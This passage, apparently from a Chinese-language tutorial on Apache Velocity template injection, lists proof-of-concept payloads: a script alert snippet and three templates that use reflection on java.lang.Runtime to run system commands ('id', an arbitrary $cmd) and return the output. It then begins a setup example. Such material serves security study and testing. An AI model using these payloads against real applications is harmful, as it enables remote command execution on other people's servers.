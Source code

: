 ### 3.3 常见 POC

web 程序中弹出 msg 的例子：

```bash
#if($msg)

<script>
alert('$!msg');
</script>

#end
```

命令执行 POC：

```bash
// 命令执行 1
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

// 命令执行 2 
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

// 命令执行 3
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

### 3.4 简单例子

第一：导入依赖

```bash
<dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
</dependency>
```
